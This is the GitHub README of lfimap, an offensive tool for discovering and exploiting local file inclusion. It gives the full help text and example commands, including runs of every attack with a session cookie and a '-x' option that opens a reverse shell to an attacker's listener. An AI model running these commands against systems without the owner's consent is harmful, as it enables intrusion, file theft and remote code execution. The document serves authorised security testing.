 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote code execution
- expect:// for remote code execution
- input:// for remote code execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Reflected XSS testing
- Absolute and relative path truncation for file inclusion
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option for automated reverse shell attack upon RCE detection

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### -h, --help
```

usage: lfimap.py [-D <request>] [-H <header>] [-C <cookie>] [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--param <name>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file]
                 [--xss] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>] [-wX <path>] [-wC <path>] [-v] [-h]
                 URL

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  URL                            Specify url, Ex: "http://example.org/vuln.php?param=PWN" 

GENERAL OPTIONS:
  -D <request>                   Do HTTP POST value test. Ex: "param=PWN"
  -H <header>                    Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -C <cookie>                    Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -P <proxy>                     Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>            Specify HTTP user agent
  --referer <referer>            Specify HTTP referer
  --param <name>                 Specify different test parameter value
  --no-stop                      Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter                   Attack using filter:// wrapper
  -i, --input                    Attack using input:// wrapper
  -d, --data                     Attack using data:// wrapper
  -e, --expect                   Attack using expect:// wrapper
  -t, --trunc                    Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi                      Attack using remote file inclusion
  -c, --cmd                      Attack using command injection
  --file                         Attack using file:// wrapper
  --xss                          Test for reflected XSS
  --info                         Test for basic information disclosures
  -a, --all                      Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit                  Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>                Specify local ip address for reverse connection
  --lport <lport>                Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>                     Specify wordlist for truncation test
  -wX <path>                     Specify wordlist for xss test
  -wC <path>                     Specify wordlist for command injection test

OTHER:
  -v, --verbose                  Print more detailed output when performing attacks
  -h, --help                     Print this help message
                       

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py http://IP/vuln.php?param=PWN -C "PHPSESSID=XXXXXXXX" -a`  

![all_attacks](https://user-images.githubusercontent.com/57464251/169725893-d1c898a2-86ef-497a-936d-dbbe5bc154a4.png)


#### 2) Reverse shell command execution attack with '-x'.
`python3 lfimap.py http://IP/vuln.php?param=PWN -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![rev_shell](https://user-images.githubusercontent.com/57464251/169725946-7565eb46-c896-40c6-8bfc-8e24c840419d.png)

#### 3) Post argument testing with '-D'. 
`python3 lfimap.py http://IP/index.php -D "param=PWN" -a`

![postreq_test](https://user-images.githubusercontent.com/57464251/169726000-89d4e66a-8ddc-4598-941a-710dc8f4db51.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
